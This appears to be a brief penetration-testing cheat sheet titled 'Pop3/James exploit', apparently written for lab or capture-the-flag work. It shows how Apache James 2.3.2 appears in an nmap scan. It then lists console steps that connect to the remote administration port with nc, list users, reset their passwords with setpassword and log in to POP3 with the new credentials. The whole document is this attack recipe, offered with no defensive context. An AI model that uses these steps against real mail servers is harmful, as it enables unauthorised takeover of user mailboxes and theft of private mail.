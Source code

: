 Pop3/James exploit
*********************

Shows up on nmap like this
############################

.. code-block:: console

   110/tcp open  pop3    JAMES pop3d 2.3.2
   4555/tcp open  rsip? JAMES Remote Administration Tool 2.3.2

Login to James Admin
######################

.. code-block:: console

   nc <rhost> <r_admin_port>

List users James Admin
#########################

.. code-block:: console

   listusers

Change Passwords James Admin
################################

.. code-block:: console

   setpassword <user> <password>

Login to pop3
################

.. code-block:: console

   nc <rhost> <rhost_port>

Login to pop3
###############

.. code-block:: console

   USER <user>
   PASS <pass>

